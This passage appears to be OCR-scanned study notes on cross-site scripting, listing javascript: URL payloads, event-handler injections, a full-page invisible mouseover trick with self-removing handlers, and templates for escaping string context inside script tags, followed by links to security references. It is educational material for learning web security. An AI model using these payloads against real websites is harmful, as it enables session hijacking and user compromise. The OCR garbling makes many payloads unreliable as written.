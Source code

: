 + Examples:
 - `javacript:alert(document.domain)`

+ Sale Result that pull from URL:

 - location = 'javascript:alert()'
 - <iframe src=javascript:alert()></iframe>
 - <href=javacript:alert()>Link></a>
 
+ `<>` Elemens is _NOT going to work_ cause it _doesn't host content_ from another webpage


     ===========================================================

    
## [Contextual Execution] (3) - Event Handling
* Us: CSS, Evnts, Event Handling, Html Attributes, JS Fucntions, URL Encoding
* Secheat shet _xss-cheat-sheet.pdf_ for more

+ Sale Events
 - _oload_: eecutes given javascript function when tag loads
  * dy Tag Exmple: `<body onload=alert(‘Welcome to Hacking Articles’)>`
 - _error_
  * img src=ivalid onerror=alert()>`
 - _mouseover: when a user moves his cursor over a specific text
  * a onmousever=alert(“50% discount”)>surprise</a>`
 - _c._
 

+ Exples
 - `nload=alet'()`  --->  `class ='title 'onload'='alert()'`


+ Us**CSS Stying** to change _how things appear_ on the website
 - C use `stye`                                                           v--- url encoding
 - Emple: `'omouseover=alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`
                                                                          ^--- % is \x25
                                                                          
 - Sf-Delete style: `"onmouseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');`
  * n put thi  in between `onmouseover=` and `alert();`
  
 - Fl: `'onmoseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`


     ===========================================================


## [Contextual Execution] (4) - Inside JS `<script>` Tags
* Us: JS Arras/comments/functions/numbers/strings/objects/operators/template literals
* Brser will parse Html BEFORE running JS_
* Th **assume you're input/source is INSIDE** `<script>` & `</script>`

     - - - -  - - - - - - - - - - - - - - - - - - - - - - - - -

     **Break ut of String Context** within `<script>` & `</script>`
    + To _preent errors_, surround payload with _proper quotes_ and `+`s or `-`s
     - In thetemplates below the `'`, `"`, `backticks` are used to _exit the string context_
     - Then te `+` or `-` help prevent the JS for failing
    ``Templats
    script>
       ''+payoad+''   ''-payload-''
       ""+payoad+""   ""-payload-""
       ``+payoad+``   ``-payload-``
    /script>
    ``
    ``Example
    script>
     ''+alert)+'' 

[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP